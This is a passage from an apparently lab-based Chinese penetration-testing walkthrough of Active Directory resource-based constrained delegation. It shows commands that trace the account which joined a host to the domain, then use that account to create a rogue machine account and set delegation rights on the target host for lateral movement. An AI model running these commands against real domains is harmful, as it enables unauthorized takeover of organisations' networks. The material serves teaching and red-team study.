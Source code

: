  

```
dn:CN=WEB2008,CN=Computers,DC=hack,DC=local
>mS-DS-CreatorSID: S-1-5-21-675002476-827761145-2127888524-1619
sid2user.exe \\192.168.52.2 5 21 675002476 827761145 2127888524 1619
Name is addUser
Domain is HACK
Type of SID is SidTypeUser
```

查WEB2008是由哪个域用户加入到域机器里的

![img](imgs/068eed09-8d37-4579-a047-ed583f6b3fe1.png)

此时找到了域里的加域账号addUser

### 0x02-2 横向拓展

假设拿到了addUser用户，尝试和web2008建立ipc连接，发现并没有权限。

![img](imgs/a90d3bbb-4568-48e7-9b43-9c4b27124437.png)

使用addUser域用户添加一个域机器账户evilpc，机器账户的密码是123456，并且对web2008域机器配置msDS-AllowedToActOnBehalfOfOtherIdentity属性

 

```
Addnew_MachineAccount.exe 域控IP 域的名字 域用户名 域用户密码 目标机器
Addnew_MachineAccount.exe 192.168.52.2 hack.local addUser P@ssw0rd web2008
```

![img](imgs/ad8a188f-a8c5-414d-bdcf-ed3d42d46200.png)
